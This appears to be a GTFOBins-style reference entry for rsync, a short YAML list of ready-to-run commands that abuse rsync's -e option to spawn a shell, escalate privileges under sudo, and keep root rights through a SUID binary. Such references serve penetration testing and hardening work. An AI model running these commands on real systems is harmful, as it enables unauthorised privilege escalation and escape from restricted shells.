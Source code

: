 functions:
  shell:
    - code: rsync -e 'sh -c "sh 0<&2 1>&2"' 127.0.0.1:/dev/null
  sudo:
    - code: sudo rsync -e 'sh -c "sh 0<&2 1>&2"' 127.0.0.1:/dev/null
  suid:
    - code: ./rsync -e 'sh -p -c "sh 0<&2 1>&2"' 127.0.0.1:/dev/null
---
